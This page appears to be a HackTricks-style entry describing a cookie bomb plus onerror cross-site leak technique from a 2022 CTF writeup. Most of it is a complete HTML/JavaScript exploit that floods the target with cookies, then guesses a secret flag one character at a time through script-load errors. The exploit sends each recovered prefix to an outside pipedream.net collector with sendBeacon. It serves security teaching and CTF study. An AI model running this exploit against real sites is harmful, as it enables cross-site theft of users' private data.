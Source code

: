 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

{{#include ../../banners/hacktricks-training.md}}
